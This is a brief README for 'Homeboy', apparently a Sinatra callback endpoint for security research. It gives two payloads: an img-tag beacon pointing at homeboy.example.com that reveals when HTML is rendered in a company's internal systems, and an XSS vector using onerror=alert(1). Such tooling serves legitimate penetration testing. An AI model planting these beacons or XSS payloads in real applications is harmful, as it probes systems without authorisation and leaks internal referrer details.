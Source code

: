 # Homeboy

A super simple sinatra endpoint for using in security research.

Homeboy can be used in place of xss image payloads, or inside content where you suspect that an application is rendering HTML.
I
## Examples

```
/*
HTML Rendering beacon
Useful for probing into a companies internal backend systems. Complete referrer details are then email to you when this html content is rendered.
*/
<img src=http://homeboy.example.com />

/*
Image based XSS Vector
Useful for creating an erraneous image for the purposes of hitting an onerror block. As above when this fails you will receive an email.
*/
<img src=http://homeboy.example.com onerror=alert(1) />
```
